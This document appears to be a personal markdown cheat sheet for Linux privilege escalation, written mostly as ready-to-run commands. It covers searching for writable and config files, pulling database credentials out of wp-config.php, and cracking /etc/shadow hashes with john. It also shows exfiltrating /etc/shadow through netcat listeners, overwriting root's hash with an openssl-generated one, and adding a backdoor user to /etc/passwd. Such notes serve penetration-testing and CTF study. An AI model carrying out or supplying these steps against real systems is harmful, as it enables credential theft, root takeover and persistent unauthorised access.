 
## To find every writable file in system
```
find / -writable -type d 2>/dev/null
```

## find imp files
```
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null

find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

## Creds hunt
```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```
## Permission Path

su root -> go check in /etc/passwd (if user available and has hash) -> then check in /etc/shadow for hash -> verify hash from shadow file

```
ls -la /etc/passwd && la -la /etc/shadow && ls -la /etc/sudoers
```

***

## Shadow file ---- username & password hashes stored here

### read hash from /etc/shadow

* [ ] john 'hash\_from\_shadow' > hash
* [ ] john hash --wordlist=rockyou.txt

### if it has write permission then,

we can manipulate the file and change hashes for the root

> if we have ssh shell, it may not support nano/vim then we have to change files via nc

* [ ] first, we have to start nc in victim machine

```
nc -nvlp 5555 < /etc/shadow
```

* [ ] then start nc in attack machine with victim ip and port
* [ ] so, file come in our attack machine. now create new hash with openssl/mkpasswd

> even we change hash type while transferring shadow file then it still works

#### Extra Note:

< \[/path/name] means to share file from thic pc

\> \[name] means to receive file from other pc as that specified name

> [!NOTE]
> mkpasswd not available in other distros (only in kali), that's why openssl is preferred


***

### make hash

* [ ] openssl passwd -6 hello
* [ ] now change old hash to new one
* [ ] start listening on attack machine
* [ ] nc attack\_ip 5555 < shadow
* [ ] nc -nvlp 5555 > /etc/shadow

![[image 43.png]]

***

## Passwd file ---- username stores here

* It has read permission for everyone
* it's super **RARE** that hash directly written here and it's not detect in any automated tool like linpeas
* but if, it has write permission then

1. remove x. so it won't check in shadow file
2. directly write hash there in /etc/passwd
3. create another user in /etc/passwd as backdoor

***

## Sudoers file --- give permission for specific users

* check permission for this file
